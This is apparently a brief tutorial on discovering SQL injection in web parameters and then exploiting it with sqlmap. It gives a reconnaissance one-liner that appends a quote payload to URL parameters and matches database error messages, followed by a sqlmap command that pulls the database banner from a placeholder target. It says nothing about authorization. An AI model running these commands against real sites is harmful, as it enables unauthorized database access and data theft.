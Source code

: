 ## Introduction :

In this article, I’ll explore how to find SQL Injection in a simple way and how to dump the database later using [sqlmap](https://github.com/sqlmapproject/sqlmap).

## Checking for SQL Injection Vulnerability :

1. We will use the below one-liner bash command

`$` ==`echo "http://<target>/" | gau | uro | grep "\?" | sed "s/=.*/=A\'/" | uniq > params.txt; cat params.txt | httpx -mr ".*SQL.*|.*syntax.*|.*error.*"`==

![](https://miro.medium.com/v2/resize:fit:700/1*C18o-FT-7B0rdhDCgnlW9w.png)

It seems we now have some endpoints that may be vulnerable to SQL injection.

Now we are going to the next step.

2. Explore the endpoints.

![](https://miro.medium.com/v2/resize:fit:700/1*_P98oHl6MPYH_HT71RBlDQ.png)

![](https://miro.medium.com/v2/resize:fit:700/1*R7nhudaOHmKvaymNXLfH8Q.png)

![](https://miro.medium.com/v2/resize:fit:700/1*oR3wqh-szWP9YsCun4z63Q.png)

![](https://miro.medium.com/v2/resize:fit:700/1*zdyY17QsBw3q3EOKVTr0XQ.png)

![](https://miro.medium.com/v2/resize:fit:700/1*XRcYW13jVpgEUNaWg0WiNg.png)

Now, it seems from the response errors, these endpoints are vulnerable to SQL injection.

3. Exploit the vulnerable endpoints we will going to use the sqlmap.

`$ sqlmap -u "http://<target>/sqli?param=A" -p param --dbms=MSSQL --level 1 --risk 1 --banner`

![](https://miro.medium.com/v2/resize:fit:700/1*NzxPiUX5zoFaJlYJulruvw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*i3NaWTxeylZA_gb4ufWTGA.png)

It seems that now we are able to get the database banner and exploit the SQL injection properly.

